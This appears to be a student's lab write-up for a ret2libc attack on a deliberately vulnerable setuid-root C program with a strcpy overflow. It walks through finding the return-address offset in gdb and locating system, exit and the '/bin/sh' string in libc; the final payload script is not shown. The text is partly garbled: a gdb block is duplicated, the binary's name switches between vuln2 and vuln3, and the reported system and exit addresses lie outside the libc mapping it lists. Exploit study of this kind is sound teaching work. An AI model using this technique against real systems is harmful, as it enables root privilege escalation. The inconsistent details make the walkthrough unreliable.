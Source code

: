 # Ret2libc
Here the goal is to exploit the following simple program, when compiled with the following commands:

```
vijay@kali> cat vuln2.c
#include <stdio.h>
#include <string.h>

int main(int argc, char* argv[]) {

  char buf[256];

  strcpy(buf, argv[1]);
  printf("Input: %s\n", buf);

  return 0;
}
vijay@kali> gcc -g -fno-stack-protector -mpreferred-stack-boundary=2 -o vuln2 vuln2.c
vijay@kali> sudo chown root vuln2
vijay@kali> sudo chgrp root vuln2
vijay@kali> sudo chmod +s vuln2
```

## Solution
### Instuctions to run
```
# exploit vuln2.c
$ make clean && make vuln2
$ python exploit2.py
```
### Explanation
First, I guessed the offset of return address. In the code, we have only one local variable char buf[256]; which is of 256 bytes size. So return address might be located at 256 + 4 (old ebp) bytes.

```
vijay@kali:~/hw3$ gdb vuln3 -q
Reading symbols from vuln3...done.
(gdb) run `python -c 'print "A" * 260 + "BBBB"'`
Starting program: /home/vijay/hw3/vuln3 `python -c 'print "A" * 260 + "BBBB"'`
Input: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
(gdb)

Next, I found the function addresses of system and exit functions as shown
below:

(gdb) p system
$1 = {<text variable, no debug info>} 0xb755d850 <__libc_system>
(gdb) p exit
$2 = {<text variable, no debug info>} 0xb75516c0 <__GI_exit>
(gdb) info proc mappings
process 1691
Mapped address spaces:

        Start Addr   End Addr       Size     Offset objfile
         0x8048000  0x8049000     0x1000        0x0 /home/vijay/hw3/vuln3
         0x8049000  0x804a000     0x1000        0x0 /home/vijay/hw3/vuln3
        0xb7e05000 0xb7fb2000   0x1ad000        0x0 /lib/i386-linux-gnu/libc-2.23.so
```

Next, I found the function addresses of system and exit functions as shown below:

```
(gdb) p system
$1 = {<text variable, no debug info>} 0xb755d850 <__libc_system>
(gdb) p exit
$2 = {<text variable, no debug info>} 0xb75516c0 <__GI_exit>
(gdb) info proc mappings
process 1691
Mapped address spaces:

        Start Addr   End Addr       Size     Offset objfile
         0x8048000  0x8049000     0x1000        0x0 /home/vijay/hw3/vuln3
         0x8049000  0x804a000     0x1000        0x0 /home/vijay/hw3/vuln3
        0xb7e05000 0xb7fb2000   0x1ad000        0x0 /lib/i386-linux-gnu/libc-2.23.so

Next, I searched for the location of "/bin/sh" string in /lib/i386-linux-gnu/libc-2.23.so:

vijay@kali:~/hw3$ strings -t x /lib/i386-linux-gnu/libc-2.23.so | grep /bin/sh
 158e64 /bin/sh

So "/bin/sh" string is located at 0xb7f5de64 location

(gdb) print/x 0xb7e05000 + 0x158e64
$1 = 0xb7f5de64
(gdb) x/1s 0xb7f5de64
0xb7f5de64:     "/bin/sh"
```

Finally, I crafted my payload to exploit vuln2.c. Please refer to exploit2.py for complete details of the payload.

